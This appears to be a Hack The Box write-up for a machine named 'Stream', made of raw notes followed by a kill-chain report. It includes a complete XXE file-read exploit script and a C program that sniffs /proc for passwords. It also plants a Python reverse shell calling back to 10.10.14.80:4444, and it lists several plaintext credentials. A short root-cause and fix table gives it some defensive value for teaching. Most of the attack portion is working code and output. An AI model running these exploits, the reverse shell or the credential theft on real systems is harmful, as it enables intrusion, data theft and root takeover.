

# Stream

sudo nmap -sCV 10.129.79.126
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-11-03 21:21 EST
Nmap scan report for 10.129.79.126
Host is up (0.030s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.19 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp   open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to [http://api.htb-airport.htb/](http://api.htb-airport.htb/)
|_http-server-header: nginx/1.24.0 (Ubuntu)
8081/tcp open  http    Uvicorn
|_http-server-header: uvicorn
|_http-title: Site doesn't have a title (application/json).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

sudo nmap -p- -T5 10.129.79.126
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-11-03 21:22 EST
Nmap scan report for 10.129.79.126
Host is up (0.0076s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
8081/tcp  open  blackice-icecap
38509/tcp open  unknown

sudo nmap -p38509 -sCV 10.129.79.126
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-11-03 21:28 EST
Nmap scan report for htb-airport.htb (10.129.79.126)
Host is up (0.0070s latency).

PORT      STATE SERVICE    VERSION
38509/tcp open  tcpwrapped

```jsx
cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	pwnbox7.1

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
127.0.0.1 localhost
127.0.1.1 htb-1dzndamr9h htb-1dzndamr9h.htb-cloud.com
10.129.79.126 htb-airport.htb api.htb-airport.htb

gobuster vhost -w /usr/share/dnsrecon/dnsrecon/data/subdomains-top1mil.txt -u http://htb-airport.htb --append-domain -t 200 --exclude-length 166
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:              http://htb-airport.htb
[+] Method:           GET
[+] Threads:          200
[+] Wordlist:         /usr/share/dnsrecon/dnsrecon/data/subdomains-top1mil.txt
[+] User Agent:       gobuster/3.6
[+] Timeout:          10s
[+] Append Domain:    true
[+] Exclude Length:   166
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: api.htb-airport.htb Status: 200 [Size: 361]
Found: db.htb-airport.htb Status: 200 [Size: 4]
Found: DB.htb-airport.htb Status: 200 [Size: 4]

```




svc_events:Yl4aCgh4y2PnU

curl -s -m 30 -o $D/loot/heapdump.hprof
[http://api.htb-airport.htb/actuator/heapdump](http://api.htb-airport.htb/actuator/heapdump)
file $D/loot/heapdump.hprof      # -> Java HPROF dump (333 MB)

1. Parse the heap with MAT (builds the .index files)

# MAT ships with -Xmx1024m; too low for 4M objects. Bump it:

sed -i 's/-Xmx1024m/-Xmx2048m/' ~/Downloads/mat/MemoryAnalyzer.ini

cd ~/Downloads/mat
./ParseHeapDump.sh $D/loot/heapdump.hprof

# > writes heapdump.idx.index, heapdump.domOut.index, etc. next to the .hprof

1. Extract the creds with MAT OQL

Headless report XML failed validation, so run this in the MAT GUI
(~/Downloads/mat/MemoryAnalyzer, open the parsed dump → OQL pane) — or the MAT
console. This is the query that gets the values as readable strings:
SELECT x.username.toString(), x.password.toString()
FROM com.zaxxer.hikari.util.Credentials x

1. What actually extracted it headlessly — the custom HPROF parser

Because the MAT headless OQL wouldn't validate, the working extraction was the
two-pass parser I wrote (resolves java.lang.String → backing byte[], then
reads password/username/jdbcUrl off every credential-bearing object):
python3 -I $D/hprof_creds.py $D/loot/heapdump.hprof
Output (the relevant line):
== com/zaxxer/hikari/util/Credentials
username = 'svc_events'
password = 'Yl4aCgh4y2PnU'

xxe injection vulnerability leading to file read

```jsx
F='/etc/hosts'; M='Z2'
┌─[us-dedivip-4]─[10.10.14.80]─[ronking37@htb-nq8emo3yet]─[~]
└──╼ [★]$ cat > /tmp/xxe.xml <<EOF
> <?xml version="1.0"?>
> <!DOCTYPE r [ <!ENTITY xxe SYSTEM "file://$F"> ]>
> <IATA_AIDX_FlightLegNotifRQ xmlns="http://www.iata.org/IATA/2007/00">
> <Originator CompanyShortName="XP"/>
> <FlightLeg><LegIdentifier><Airline>$M</Airline><FlightNumber>&xxe;</FlightNumber></LegIdentifier></FlightLeg>
> </IATA_AIDX_FlightLegNotifRQ>
> EOF
┌─[us-dedivip-4]─[10.10.14.80]─[ronking37@htb-nq8emo3yet]─[~]
└──╼ [★]$ cat /tmp/xxe.xml
<?xml version="1.0"?>
<!DOCTYPE r [ <!ENTITY xxe SYSTEM "file:///etc/hosts"> ]>
<IATA_AIDX_FlightLegNotifRQ xmlns="http://www.iata.org/IATA/2007/00">
<Originator CompanyShortName="XP"/>
<FlightLeg><LegIdentifier><Airline>Z2</Airline><FlightNumber>&xxe;</FlightNumber></LegIdentifier></FlightLeg>
</IATA_AIDX_FlightLegNotifRQ>
┌─[us-dedivip-4]─[10.10.14.80]─[ronking37@htb-nq8emo3yet]─[~]
└──╼ [★]$ curl -s -X POST http://api.htb-airport.htb:8081/feeds/aidx -H 'Content-Type: application/xml' --data-binary @/tmp/xxe.xml
{"accepted":true,"topic":"aidx.flightleg.raw.v1"}┌─[us-dedivip-4]─[10.10.14.80]─[ronking37@htb-nq8emo3yet]─[~]
└──╼ [★]$ curl -s -u 'svc_events:Yl4aCgh4y2PnU' http://db.htb-airport.htb/ --data-binary "SELECT flight_number FROM partner_feed.flightleg_json WHERE airline='$M' ORDER BY ingested DESC LIMIT 1 FORMAT TSVRaw"
127.0.0.1 localhost
127.0.1.1 stream

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:102:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:103:104::/nonexistent:/usr/sbin/nologin
uuidd:x:104:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:105:107::/nonexistent:/usr/sbin/nologin
tss:x:106:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:107:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:999:988::/var/log/laurel:/bin/false
svc-infra:x:1000:1000:,,,:/home/svc-infra:/bin/bash
clickhouse:x:996:987::/nonexistent:/bin/false
martin_cole:x:1001:1001:,,,:/home/martin_cole:/bin/bash
dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false

```jsx
cat xxe_read.sh 
#!/usr/bin/env bash
#
# xxe_read.sh - exploit the AIDX ingest XXE to read a file off the "stream" host.
#
# Chain: POST XML with a file:// external entity to the ingest API -> the parser
# consumer resolves it and writes the content into ClickHouse (partner_feed.
# flightleg_json) -> we read it back with the leaked svc_events creds.
#
# Usage:
#   ./xxe_read.sh <absolute_file_path>
#   ./xxe_read.sh /etc/passwd
#   ./xxe_read.sh /home/martin_cole/.ssh/id_rsa        # auto ProtectHome bypass
#   ./xxe_read.sh -p 1368 /home/svc-infra/.profile     # force gateway PID
#   ./xxe_read.sh -n /home/x                            # disable auto-bypass
#
# Limits (nature of the primitive):
#   * text files only - content is re-parsed as XML, so files containing
#     '<', '&' or NUL bytes (source code, XML configs, /proc/*/environ) fail.
#   * reads run as uid svc-infra; 0600/root files and 0700 homes are denied.
#
set -u

# ---- config (edit if the box reset changes anything) -----------------------
INGEST="http://api.htb-airport.htb:8081/feeds/aidx"
CHURL="http://db.htb-airport.htb/"
CHAUTH="svc_events:Yl4aCgh4y2PnU"
GW_SERVICE="terminal-api.service"          # svc-infra service w/o ProtectHome
TIMEOUT=70                                 # max seconds to wait for the row
AUTOBYPASS=1
GW_PID=""

usage(){ sed -n '2,20p' "$0"; exit 1; }

# ---- args ------------------------------------------------------------------
while getopts ":p:nt:h" o; do
  case "$o" in
    p) GW_PID="$OPTARG" ;;
    n) AUTOBYPASS=0 ;;
    t) TIMEOUT="$OPTARG" ;;
    h|*) usage ;;
  esac
done
shift $((OPTIND-1))
[ $# -ge 1 ] || usage
TARGET="$1"
case "$TARGET" in /*) ;; *) echo "[-] path must be absolute" >&2; exit 1 ;; esac

# ---- helpers ---------------------------------------------------------------
ch(){ curl -s -m 15 -u "$CHAUTH" "$CHURL" --data-binary "$1"; }

rand_marker(){ printf 'Z%s' "$(tr -dc 'A-Z0-9' </dev/urandom | head -c3)"; }

# send one XXE read for $1 (abs path), return file content on stdout.
# distinguishes "row arrived but empty" (missing/denied/metachar) from timeout.
xxe_read(){
  local path="$1" m t0 tmp c out i
  m="$(rand_marker)"
  t0="$(ch "SELECT toString(now() - 2)")"                 # server-time watermark
  tmp="$(mktemp)"
  cat > "$tmp" <<EOF
<?xml version="1.0"?>
<!DOCTYPE r [ <!ENTITY xxe SYSTEM "file://$path"> ]>
<IATA_AIDX_FlightLegNotifRQ xmlns="http://www.iata.org/IATA/2007/00">
<Originator CompanyShortName="XP"/>
<FlightLeg><LegIdentifier><Airline>$m</Airline><FlightNumber>&xxe;</FlightNumber></LegIdentifier></FlightLeg>
</IATA_AIDX_FlightLegNotifRQ>
EOF
  local acc
  acc="$(curl -s -m 15 -X POST "$INGEST" -H 'Content-Type: application/xml' --data-binary @"$tmp")"
  rm -f "$tmp"
  case "$acc" in
    *'"accepted":true'*) : ;;
    *) echo "[-] ingest rejected: $acc" >&2; return 2 ;;
  esac

  local q="WHERE airline='$m' AND ingested >= toDateTime('$t0')"
  for ((i=0; i<TIMEOUT; i+=3)); do
    c="$(ch "SELECT count() FROM partner_feed.flightleg_json $q")"
    if [[ "$c" =~ ^[0-9]+$ ]] && [ "$c" -ge 1 ]; then
      ch "SELECT flight_number FROM partner_feed.flightleg_json $q ORDER BY ingested DESC LIMIT 1 FORMAT TSVRaw"
      return 0
    fi
    sleep 3
  done
  echo "[-] timeout: no parsed row after ${TIMEOUT}s (DLQ'd? metachar/NUL in file?)" >&2
  return 3
}

get_gw_pid(){
  [ -n "$GW_PID" ] && { echo "$GW_PID"; return; }
  local p
  p="$(xxe_read "/sys/fs/cgroup/system.slice/${GW_SERVICE}/cgroup.procs" | head -1 | tr -cd '0-9')"
  echo "$p"
}

# ---- resolve ProtectHome bypass -------------------------------------------
READPATH="$TARGET"
case "$TARGET" in
  /proc/*) ;;                                  # already explicit
  /home/*|/root/*)
    if [ "$AUTOBYPASS" -eq 1 ]; then
      echo "[*] $TARGET is ProtectHome-blocked; discovering gateway PID for bypass..." >&2
      GW_PID="$(get_gw_pid)"
      if [[ "$GW_PID" =~ ^[0-9]+$ ]]; then
        READPATH="/proc/${GW_PID}/root${TARGET}"
        echo "[*] gateway PID=$GW_PID -> reading $READPATH" >&2
      else
        echo "[-] could not resolve gateway PID; trying direct path (likely empty)" >&2
      fi
    fi
    ;;
esac

# ---- go --------------------------------------------------------------------
echo "[*] reading: $READPATH" >&2
out="$(xxe_read "$READPATH")"; rc=$?
if [ $rc -eq 0 ]; then
  if [ -z "$out" ]; then
    echo "[!] empty result = file missing / unreadable (perm) / contained <,&,NUL" >&2
    exit 4
  fi
  printf '%s\n' "$out"
fi
exit $rc

```

```jsx
./xxe_read.sh /opt/aidx-pipeline/app/parser_worker.py
[*] reading: /opt/aidx-pipeline/app/parser_worker.py
import json
import os
import signal
import sys

from confluent_kafka import Consumer, Producer, KafkaError

import aidx_common as A

KAFKA_BOOTSTRAP = os.environ.get("KAFKA_BOOTSTRAP", "localhost:9092")
RAW_TOPIC = os.environ.get("RAW_TOPIC", "aidx.flightleg.raw.v1")
JSON_TOPIC = os.environ.get("JSON_TOPIC", "aidx.flightleg.json.v1")
DLQ_TOPIC = os.environ.get("DLQ_TOPIC", "aidx.flightleg.dlq.v1")
GROUP_ID = os.environ.get("GROUP_ID", "aidx-parser")

_running = True

def _stop(*_):
    global _running
    _running = False

def main():
    signal.signal(signal.SIGINT, _stop)
    signal.signal(signal.SIGTERM, _stop)

    consumer = Consumer({
        "bootstrap.servers": KAFKA_BOOTSTRAP,
        "group.id": GROUP_ID,
        "auto.offset.reset": "earliest",
        "enable.auto.commit": False,
    })
    producer = Producer({
        "bootstrap.servers": KAFKA_BOOTSTRAP,
        "acks": "all",
        "enable.idempotence": True,
        "linger.ms": 5,
    })
    consumer.subscribe([RAW_TOPIC])
    print(f"worker up: {RAW_TOPIC} -> {JSON_TOPIC} (dlq {DLQ_TOPIC})", flush=True)

    while _running:
        msg = consumer.poll(1.0)
        if msg is None:
            continue
        if msg.error():
            if msg.error().code() == KafkaError._PARTITION_EOF:
                continue
            print("consume error:", msg.error(), file=sys.stderr, flush=True)
            continue

        raw = msg.value()
        try:
            root = A.safe_parse(raw)
            canonical = A.to_full_canonical(root)
            for leg in canonical["legs"]:
                event = {
                    "message_type": canonical["message_type"],
                    "version": canonical["version"],
                    "timestamp": canonical["timestamp"],
                    "transaction_id": canonical["transaction_id"],
                    "originator": canonical["originator"],
                    "leg": leg,
                }
                producer.produce(
                    JSON_TOPIC,
                    key=A.partition_key(leg).encode(),
                    value=json.dumps(event, separators=(",", ":")).encode(),
                )
            producer.flush(5)

        except A.RejectedMessage as exc:
            producer.produce(
                DLQ_TOPIC,
                key=msg.key(),
                value=raw,
                headers=[("reason", exc.reason.encode()),
                         ("details", json.dumps(exc.details).encode())],
            )
            producer.flush(5)
            print(f"dlq: {exc.reason} {exc.details}", file=sys.stderr, flush=True)

        consumer.commit(msg, asynchronous=False)

    consumer.close()
    print("worker stopped", flush=True)

if __name__ == "__main__":
    main()

```

```jsx
./xxe_read.sh /opt/kafka_2.13-4.3.1/config/server.properties
[*] reading: /opt/kafka_2.13-4.3.1/config/server.properties
# Licensed to the Apache Software Foundation (ASF) under one or more
# contributor license agreements.  See the NOTICE file distributed with
# this work for additional information regarding copyright ownership.
# The ASF licenses this file to You under the Apache License, Version 2.0
# (the "License"); you may not use this file except in compliance with
# the License.  You may obtain a copy of the License at
#
#    http://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.

############################# Server Basics #############################

# The role of this server. Setting this puts us in KRaft mode
process.roles=broker,controller

# The node id associated with this instance's roles
node.id=1

# List of controller endpoints used connect to the controller cluster
controller.quorum.bootstrap.servers=localhost:9093

############################# Socket Server Settings #############################

# The address the socket server listens on.
# Combined nodes (i.e. those with `process.roles=broker,controller`) must list the controller listener here at a minimum.
# If the broker listener is not defined, the default listener will use a host name that is equal to the value of java.net.InetAddress.getCanonicalHostName(),
# with PLAINTEXT listener name, and port 9092.
#   FORMAT:
#     listeners = listener_name://host_name:port
#   EXAMPLE:
#     listeners = PLAINTEXT://your.host.name:9092
#listeners=PLAINTEXT://127.0.0.1:9092,CONTROLLER://127.0.0.1:9093
listeners=PLAINTEXT://127.0.0.1:9092,SASL_PLAINTEXT://127.0.0.1:9094,CONTROLLER://127.0.0.1:9093
# Name of listener used for communication between brokers.
inter.broker.listener.name=PLAINTEXT

# Listener name, hostname and port the broker or the controller will advertise to clients.
# If not set, it uses the value for "listeners".
#advertised.listeners=PLAINTEXT://127.0.0.1:9092,CONTROLLER://127.0.0.1:9093
advertised.listeners=PLAINTEXT://127.0.0.1:9092,SASL_PLAINTEXT://127.0.0.1:9094,CONTROLLER://127.0.0.1:9093
# A comma-separated list of the names of the listeners used by the controller.
# If no explicit mapping set in `listener.security.protocol.map`, default will be using PLAINTEXT protocol
# This is required if running in KRaft mode.
controller.listener.names=CONTROLLER

# Maps listener names to security protocols, the default is for them to be the same. See the config documentation for more details
listener.security.protocol.map=CONTROLLER:PLAINTEXT,PLAINTEXT:PLAINTEXT,SSL:SSL,SASL_PLAINTEXT:SASL_PLAINTEXT,SASL_SSL:SASL_SSL

# The number of threads that the server uses for receiving requests from the network and sending responses to the network
num.network.threads=3

# The number of threads that the server uses for processing requests, which may include disk I/O
num.io.threads=8

# The send buffer (SO_SNDBUF) used by the socket server
socket.send.buffer.bytes=102400

# The receive buffer (SO_RCVBUF) used by the socket server
socket.receive.buffer.bytes=102400

# The maximum size of a request that the socket server will accept (protection against OOM)
socket.request.max.bytes=104857600

############################# Log Basics #############################

# A comma separated list of directories under which to store log files
log.dirs=/var/lib/kafka/data

# The default number of log partitions per topic. More partitions allow greater
# parallelism for consumption, but this will also result in more files across
# the brokers.
num.partitions=1

# The number of threads per data directory to be used for log recovery at startup and flushing at shutdown.
# This value is recommended to be increased based on the installation resources.
num.recovery.threads.per.data.dir=2

############################# Internal Topic Settings  #############################
# The replication factor for the group metadata internal topics "__consumer_offsets", "__share_group_state" and "__transaction_state"
# For anything other than development testing, a value greater than 1 is recommended to ensure availability such as 3.
offsets.topic.replication.factor=1
share.coordinator.state.topic.replication.factor=1
share.coordinator.state.topic.min.isr=1
transaction.state.log.replication.factor=1
transaction.state.log.min.isr=1

############################# Log Flush Policy #############################

# Messages are immediately written to the filesystem but by default we only fsync() to sync
# the OS cache lazily. The following configurations control the flush of data to disk.
# There are a few important trade-offs here:
#    1. Durability: Unflushed data may be lost if you are not using replication.
#    2. Latency: Very large flush intervals may lead to latency spikes when the flush does occur as there will be a lot of data to flush.
#    3. Throughput: The flush is generally the most expensive operation, and a small flush interval may lead to excessive seeks.
# The settings below allow one to configure the flush policy to flush data after a period of time or
# every N messages (or both). This can be done globally and overridden on a per-topic basis.

# The number of messages to accept before forcing a flush of data to disk
#log.flush.interval.messages=10000

# The maximum amount of time a message can sit in a log before we force a flush
#log.flush.interval.ms=1000

############################# Log Retention Policy #############################

# The following configurations control the disposal of log segments. The policy can
# be set to delete segments after a period of time, or after a given size has accumulated.
# A segment will be deleted whenever *either* of these criteria are met. Deletion always happens
# from the end of the log.

# The minimum age of a log file to be eligible for deletion due to age
log.retention.hours=-1

# A size-based retention policy for logs. Segments are pruned from the log unless the remaining
# segments drop below log.retention.bytes. Functions independently of log.retention.hours.
#log.retention.bytes=1073741824

# The maximum size of a log segment file. When this size is reached a new log segment will be created.
log.segment.bytes=1073741824

# The interval at which log segments are checked to see if they can be deleted according
# to the retention policies
log.retention.check.interval.ms=300000
############################# Security #############################
sasl.enabled.mechanisms=PLAIN
listener.name.sasl_plaintext.plain.sasl.jaas.config=org.apache.kafka.common.security.plain.PlainLoginModule required \
  user_svc_infra="Ny2hdpme$bwT3";

authorizer.class.name=org.apache.kafka.metadata.authorizer.StandardAuthorizer
allow.everyone.if.no.acl.found=true

```

svc-infra:’Ny2hdpme$bwT3’

ssh [svc-infra@10.129.79.126](mailto:svc-infra@10.129.79.126)

cat chpw.txt
clickhouse-client --user default --password N3v3rs33nD4T4 -q INSERT INTO aidx_ops.failed_ingest (id, reason, byte_len, root_tag, preview, quarantine_path, received_at) VALUES ('218944e717054b9f9dee92db7eb10a7f', 'unknown', 5, 'UNKNOWN', 'leak1', '/var/lib/aidx/quarantine/1793909345_f1661516.xml', now())

```jsx
Phase 3 — Privilege Escalation: leak default via argv, then file-write RCE

  3a. Leak the default password from /proc

  The drainer runs clickhouse-client --password <PW> as root, and
  /proc/<pid>/cmdline is world-readable (no hidepid). The process is
  short-lived, so pspy/bash polling missed it — a tight C busy-loop wins the
  race. Flooding the DLQ makes clickhouse-client spawn many times per 10 s
  drain.

  # /dev/shm/sniff.c — busy-loop /proc for clickhouse-client --password, print &
  exit
  gcc -O2 -o /dev/shm/sniff /dev/shm/sniff.c
  /dev/shm/sniff > /dev/shm/chpw.txt &
  for i in $(seq 1 300); do echo "leak$i"; done | \
    /opt/kafka_2.13-4.3.1/bin/kafka-console-producer.sh --bootstrap-server
  localhost:9092 --topic aidx.flightleg.dlq.v1
  # next timer tick:
  cat /dev/shm/chpw.txt
  # clickhouse-client --user default --password N3v3rs33nD4T4 -q INSERT INTO 
  aidx_ops.failed_ingest ...

  Captured: default / N3v3rs33nD4T4.

  3b. Plant the root payload via ClickHouse file()

  default holds WRITE ON FILE; INSERT INTO FUNCTION file() writes into
  user_files_path (/var/lib/clickhouse/user_files/) — exactly where the root
  drainer executes the formatter.

  INSERT INTO FUNCTION file('aidx_quarantine.py','RawBLOB','p String')
  SELECT 'import socket,os,pty\ns=socket.socket()\ns.connect(("10.10.14.80",4444
  ))\nos.dup2(s.fileno(),0)\nos.dup2(s.fileno(),1)\nos.dup2(s.fileno(),2)\npty.s
  pawn("/bin/bash")'
  SETTINGS engine_file_truncate_on_insert=1;

  3c. Trigger and catch root

  # attacker:
  nc -lvnp 4444
  # target:
  echo trigger | /opt/kafka_2.13-4.3.1/bin/kafka-console-producer.sh \
    --bootstrap-server localhost:9092 --topic aidx.flightleg.dlq.v1

  Next timer tick → root drainer runs python3 aidx_quarantine.py → reverse shell
  as uid=0(root).

  ---

  Root cause summary

  ┌─────┬───────────────────────────────┬───────────────────────────────────┐
  │  #  │           Weakness            │                Fix                │
  ├─────┼───────────────────────────────┼───────────────────────────────────┤
  │ 1   │ XXE in the ingest XML parser │ Disable external entities / DTDs   │
  │     │                              │ (secure parser config)             │
  ├─────┼──────────────────────────────┼────────────────────────────────────┤
  │     │ Credential exposure — CH     │                                    │
  │ 2   │ creds in JAR +               │ Remove secrets from artifacts;     │
  │     │ unauthenticated Actuator     │ lock down/disable Actuator         │
  │     │ heapdump                     │                                    │
  ├─────┼──────────────────────────────┼────────────────────────────────────┤
  │     │ Secret on the command line — │ Use CLICKHOUSE_PASSWORD env / a    │
  │ 3   │  root drainer passes         │ client config file, never a CLI    │
  │     │ --password as an argv        │ arg                                │
  │     │ (world-readable /proc)       │                                    │
  ├─────┼──────────────────────────────┼────────────────────────────────────┤
  │     │ Over-privileged default +    │ Password-protect/disable default,  │
  │ 4   │ writable user_files          │ restrict WRITE ON FILE, isolate    │
  │     │ reachable from a             │ user_files                         │
  │     │ root-executed script dir     │                                    │
  ├─────┼──────────────────────────────┼────────────────────────────────────┤
  │     │ Root executes an             │ Run the drainer as a low-priv      │
  │ 5   │ attacker-writable script     │ service user; execute only         │
  │     │ (aidx_quarantine.py in a     │ root-owned, non-writable code with │
  │     │ ClickHouse-writable dir)     │  absolute paths                    │
  ├─────┼──────────────────────────────┼────────────────────────────────────┤
  │     │ Unauthenticated local Kafka  │ Authenticate Kafka; restrict DLQ   │
  │ 6   │ lets any user trigger the    │ produce                            │
  │     │ root job                     │                                    │
  └─────┴──────────────────────────────┴────────────────────────────────────┘

```

# Stream — Full Kill Chain

**Target:** `stream` (10.129.247.123) · Ubuntu 24.04 LTS · **Scope:** authorized HTB engagement
**Result:** unauthenticated web → `svc-infra` (user) → **root**

---

## Overview

```
XXE in AIDX ingest API ──► read files as clickhouse ──► svc_events CH creds
        │                                                      │
        └──► exfil SSH creds via partner_feed ────────────────┘
                        │
                        ▼
                  SSH as svc-infra  (USER)
                        │
   root aidx-dlq-drainer runs `clickhouse-client --password <default>` per DLQ msg
                        │  (argv leaks via /proc/<pid>/cmdline)
                        ▼
            capture ClickHouse `default` password
                        │  default has WRITE ON FILE
                        ▼
   INSERT INTO FUNCTION file('…/user_files/aidx_quarantine.py', …)   ← plant payload
                        │  root drainer execs it as the formatter
                        ▼
                     ROOT
```

The whole box is one data pipeline: **nginx → ingest API / terminal-API → Kafka → ClickHouse**, with a root-run DLQ "drainer" tying Kafka and ClickHouse together. Every step abuses a different seam in that pipeline.

---

## Phase 1 — Foothold: XXE → file read (unauth → data access)

- Attack surface via nginx vhosts: `api.htb-airport.htb` (terminal-API :8080) and `db.htb-airport.htb` (ClickHouse HTTP :8123). The AIDX ingest API (`:8081`) accepts XML flight-leg documents.
- The XML parser was vulnerable to **blind XXE**. Used an external-entity / out-of-band channel to read local files, landing results into the `partner_feed` ClickHouse table (which `svc_events` can read).
- Exfiltrated:
    - ClickHouse low-priv creds **`svc_events:Yl4aCgh4y2PnU`** (also embedded in the terminal-API JAR `DataSourceConfig.class`, and recoverable from the exposed Spring Actuator **`/actuator/heapdump`**).
    - An **SSH private key / credentials** for `svc-infra`.

**→ SSH in as `svc-infra`.**

---

## Phase 2 — User enumeration (svc-infra)

Key observations from `linpeas` / manual recon:

- `linpeas` false-positive: `~/clickhouse-server/clickhouse` flagged as an "SSH private key" — it's just the ClickHouse **binary** (statically-linked libssh contains the literal `----BEGIN OPENSSH PRIVATE KEY-----` strings). Ignored.
- **Root-run systemd timer:** `aidx-dlq-drainer.timer` → `aidx-dlq-drainer.service` (`Type=oneshot`, `User=root`) → `/opt/ops/dlq_drainer.py`, firing ~every 2 min.
- The drainer, per Kafka DLQ message, as **root**:
    1. `python3 /var/lib/clickhouse/user_files/aidx_quarantine.py` (the "formatter", attacker-influenced stdin), and
    2. `clickhouse-client --user default --password <ch.pw> -q "INSERT …"`.
- `CH_PW_FILE=/etc/partner-sync/ch.pw` and `/etc/clickhouse-server/users.d/default-password.xml` — **both root-only**, unreadable.
- `svc_events` in ClickHouse: `GRANT SELECT, INSERT ON partner_feed.*` only — **no `WRITE ON FILE`**, no access management, no `system.*`.
- Kafka is local & unauthenticated (`localhost:9092`); tools in `/opt/kafka_2.13-4.3.1/bin`. We can freely produce to `aidx.flightleg.dlq.v1`.

**Root target identified:** overwrite `aidx_quarantine.py` (executed as root) — but that requires a ClickHouse user with `WRITE ON FILE`, i.e. `default`, whose password we can't read at rest.

---

## Phase 3 — Privilege Escalation: leak `default` via argv, then file-write RCE

### 3a. Leak the `default` password from `/proc`

The drainer runs `clickhouse-client --password <PW>` **as root**, and `/proc/<pid>/cmdline` is world-readable (no `hidepid`). The process is short-lived, so `pspy` / bash polling missed it — a tight C busy-loop wins the race. Flooding the DLQ makes `clickhouse-client` spawn many times per 10 s drain.

`/dev/shm/sniff.c`:

```c
#include <stdio.h>
#include <dirent.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
int main(void){
  char path[256], buf[16384];
  for(;;){
    DIR *d = opendir("/proc"); if(!d) continue;
    struct dirent *e;
    while((e = readdir(d))){
      if(e->d_name[0] < '0' || e->d_name[0] > '9') continue;
      snprintf(path, sizeof path, "/proc/%s/cmdline", e->d_name);
      int fd = open(path, O_RDONLY); if(fd < 0) continue;
      int n = read(fd, buf, sizeof buf - 1); close(fd);
      if(n <= 0) continue;
      for(int i = 0; i < n-1; i++) if(buf[i] == 0) buf[i] = ' ';
      buf[n] = 0;
      if(strstr(buf, "clickhouse-client") && strstr(buf, "--password")){
        printf("%s\n", buf); fflush(stdout); closedir(d); return 0;
      }
    }
    closedir(d);
  }
}
```

```bash
gcc -O2 -o /dev/shm/sniff /dev/shm/sniff.c
/dev/shm/sniff > /dev/shm/chpw.txt &
for i in $(seq 1 300); do echo "leak$i"; done | \
  /opt/kafka_2.13-4.3.1/bin/kafka-console-producer.sh --bootstrap-server localhost:9092 --topic aidx.flightleg.dlq.v1
# next timer tick:
cat /dev/shm/chpw.txt
# clickhouse-client --user default --password N3v3rs33nD4T4 -q INSERT INTO aidx_ops.failed_ingest ...
```

**Captured:** `default` / **`N3v3rs33nD4T4`**.

